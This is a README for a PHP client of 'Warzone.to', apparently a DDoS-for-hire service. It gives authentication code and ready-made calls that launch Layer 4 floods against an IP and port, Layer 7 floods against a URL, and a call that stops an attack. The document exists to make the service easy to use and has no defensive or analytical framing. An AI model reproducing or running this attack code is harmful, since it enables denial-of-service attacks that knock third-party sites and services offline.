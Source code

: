 # Warzone.to API
Sample API usage of Warzone.to

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://warzone.to/methods

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = "12";
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = 80;
$time = 15;
$method = 1;

/* Parameters : IPv4 , Port , Time , Method */
$response = $api->startL4($host, $port, $time, $method);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = 15;
$method = 5;

/* Parameters : URL , Time , Method */
$response = $api->startL7($host, $time, $method);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
/* Echo Response Status */
echo $response->status; // Get API response.

/* Echo Message */
echo $response->message; // Get Message.
```
